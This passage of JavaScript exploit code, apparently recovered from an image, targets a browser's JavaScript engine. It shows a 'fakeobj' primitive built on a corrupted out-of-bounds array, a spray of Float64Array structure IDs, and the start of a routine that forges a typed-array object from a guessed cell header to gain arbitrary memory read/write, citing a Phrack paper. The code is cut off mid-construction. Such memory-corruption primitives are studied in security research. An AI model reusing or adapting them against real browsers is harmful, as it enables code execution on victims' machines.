                // Return a jsobject at a given address
                prims.fakeobj = function(addr) {
                    // To do this we overwrite the first slot of the jsvalue array
                    // with the OOB float array
                    corrupted_arr[oob_ind] = addr.asDouble();
                    return target[0];
                }

                return prims;
            }
        }
    }

    // Here we will spray structure IDs for Float64Arrays
    // See http://www.phrack.org/papers/attacking_javascript_engines.html
    function sprayStructures() {
      function randomString() {
          return Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 5);
      }
      // Spray arrays for structure id
      for (let i = 0; i < 0x1000; i++) {
          let a = new Float64Array(1);
          // Add a new property to create a new Structure instance.
          a[randomString()] = 1337;
          structs.push(a);
      }
    }


    // Here we will create our fake typed array and get arbitrary read/write
    // See http://www.phrack.org/papers/attacking_javascript_engines.html
    function getArb(prims) {
        sprayStructures()

        let utarget = new Uint8Array(0x10000);
        utarget[0] = 0x41;

        // Our fake array
        // Structure id guess is 0x200
        // [ Indexing type = 0 ][ m_type = 0x27 (float array) ][ m_flags = 0x18 (OverridesGetOwnPropertySlot) ][ m_cellState = 1 (NewWhite)]
        let jscell = new Int64('0x0118270000000200');

        // Construct the object
        // Each attribute will set 8 bytes of the fake object inline
        obj = {
            'a': jscell.asDouble(),

            // Butterfly can be anything
            'b': false,

            // Target we want to write to
            'c': utarget,

            // Length and flags
            'd': new Int64('0x0001000000000010').asDouble()
        };
